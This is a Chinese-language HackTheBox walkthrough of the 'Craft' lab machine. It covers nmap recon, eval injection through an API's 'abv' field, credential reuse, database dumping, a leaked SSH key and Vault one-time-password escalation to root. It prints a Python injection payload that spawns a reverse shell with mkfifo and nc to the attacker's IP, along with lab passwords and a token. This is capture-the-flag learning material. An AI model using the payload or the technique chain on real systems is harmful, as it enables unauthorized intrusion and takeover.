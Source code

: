 # Craft

## 环境

平台：HackTheBox

攻击机：Kali（IP：10.10.14.16）

靶机：Craft（IP：10.10.10.110）

地址：https://www.hackthebox.eu/home/machines/profile/197

## Let's go

```
nmap -A 10.10.10.110
```

![](./img/Craft-01.png)

> **审查发现两个地址，添加hosts**

![](./img/Craft-02.png)

![](./img/Craft-03.png)

> **接下来，慢慢进行探索**

![](./img/Craft-04.png)

![](./img/Craft-05.png)

> **发现  /api/brew/  接口的abv值可能存在问题，并且这个接口需要认证，我们进行进一步检查**

![](./img/Craft-06.png)

![](./img/Craft-07.png)

>**果然发现问题，接下来我们需要想办法通过认证**

![](./img/Craft-08.png)

> **在 test.py 的历史记录中找到用户名 'dinesh' 和密码 '4aUh0A8PbVJxgd'**

![](./img/Craft-09.png)

>**通过得到的用户名和密码获取token**

![](./img/Craft-10.png)

```
X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc3NjI0NDUwfQ.s3CYce6bX6z2YUjPYBMqCVnt0qzUldXooH7PGAuPWNA
"abv": "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4343 >/tmp/f"
```

![](./img/Craft-11.png)

> **发现在 docker 中并且找到 dbtest.py，我们可以修改 dbtest.py 中的sql语句查询数据库**

![](./img/Craft-12.png)

```
SELECT * FROM user
```

> **查询到 user 表中的所有用户名和密码**

![](./img/Craft-13.png)

> **尝试登录仓库，发现 gilfoyle 拥有私人仓库，并且发现SSH密钥**

![](./img/Craft-14.png)

> **尝试密钥登陆发现警告提示，说id_rsa权限太高**

![](./img/Craft-15.png)

```
chmod 600 id_rsa
ssh gilfoyle@10.10.10.110 -i id_rsa
password:ZEU3N8WNM2rh4T
```

![](./img/Craft-16.png)

> **尝试提权无果，回到仓库注意到 vault ，搜索发现他是用来生成一次性钥匙的**
>
> https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html

```
vault write ssh/creds/root_otp ip=10.10.10.110
```

![](./img/Craft-17.png)

```
ssh root@10.10.10.110
```

![](./img/Craft-18.png)